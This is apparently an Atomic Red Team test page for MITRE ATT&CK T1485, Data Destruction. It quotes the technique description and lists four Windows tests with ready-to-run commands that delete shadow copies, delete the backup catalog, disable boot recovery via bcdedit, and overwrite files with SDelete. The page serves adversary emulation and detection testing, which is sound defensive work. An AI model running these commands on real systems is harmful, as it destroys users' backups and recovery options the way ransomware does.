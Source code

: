 ```yaml
---
published: true
---
```

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1485)
<blockquote>Adversaries may destroy data data and files on specific systems or in large numbers on a network to interrupt availability to systems, services, and network resources. Data destruction is likely to render stored data irrecoverable by forensic techniques through overwriting files or data on local and remote drives.(Citation: Symantec Shamoon 2012)(Citation: FireEye Shamoon Nov 2016)(Citation: Palo Alto Shamoon Nov 2016)(Citation: Kaspersky StoneDrill 2017)(Citation: Unit 42 Shamoon3 2018)(Citation: Talos Olympic Destroyer 2018) Common operating system file deletion commands such as <code>del</code> and <code>rm</code> often only remove pointers to files without wiping the contents of the files themselves, making the files recoverable by proper forensic methodology. This behavior is distinct from <a href="https://attack.mitre.org/techniques/T1488">Disk Content Wipe</a> and <a href="https://attack.mitre.org/techniques/T1487">Disk Structure Wipe</a> because individual files are destroyed rather than sections of a storage disk or the disk's logical structure.
<br/>
<br/>
Adversaries may attempt to overwrite files and directories with randomly generated data to make it irrecoverable.(Citation: Kaspersky StoneDrill 2017)(Citation: Unit 42 Shamoon3 2018) In some cases politically oriented image files have been used to overwrite data.(Citation: FireEye Shamoon Nov 2016)(Citation: Palo Alto Shamoon Nov 2016)(Citation: Kaspersky StoneDrill 2017)
<br/>
<br/>
To maximize impact on the target organization in operations where network-wide availability interruption is the goal, malware designed for destroying data may have worm-like features to propagate across a network by leveraging additional techniques like <a href="https://attack.mitre.org/techniques/T1078">Valid Accounts</a>, <a href="https://attack.mitre.org/techniques/T1003">Credential Dumping</a>, and <a href="https://attack.mitre.org/techniques/T1077"> Windows Admin Shares </a>.(Citation: Symantec Shamoon 2012)(Citation: FireEye Shamoon Nov 2016)(Citation: Palo Alto Shamoon Nov 2016)(Citation: Kaspersky StoneDrill 2017)(Citation: Talos Olympic Destroyer 2018)</blockquote>

## Atomic Tests

- Atomic Test #1 - Windows - Delete Volume Shadow Copies

- Atomic Test #2 - Windows - Delete Windows Backup Catalog

- Atomic Test #3 - Windows - Disable Windows Recovery Console Repair

- Atomic Test #4 - Windows - Overwrite file with Sysinternals SDelete

<br/>

## Atomic Test #1 - Windows - Delete Volume Shadow Copies
Deletes Windows Volume Shadow Copies. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows


#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 

```
vssadmin.exe delete shadows /all /quiet
```

<br/>
<br/>

## Atomic Test #2 - Windows - Delete Windows Backup Catalog
Deletes Windows Backup Catalog. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows


#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 

```
wbadmin.exe delete catalog -quiet
```

<br/>
<br/>

## Atomic Test #3 - Windows - Disable Windows Recovery Console Repair
Disables repair by the Windows Recovery Console on boot. 
This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows


#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 

```
bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures
bcdedit.exe /set {default} recoveryenabled no
```

<br/>
<br/>

## Atomic Test #4 - Windows - Overwrite file with Sysinternals SDelete
Overwrites and deletes a file using Sysinternals SDelete.
Requires the download of either Sysinternals Suite or the individual SDelete utility.

**Supported Platforms:** Windows


#### Inputs

| Name | Description | Type | Default Value | 
|:------:|:-------------:|:------:|:---------------:|
| file_to_overwrite | Path of file to overwrite and remove | Path | C:\some\file.txt|

#### Run it with `command_prompt`! 

```
sdelete.exe #{file_to_overwrite}
```

<br/>
<br/>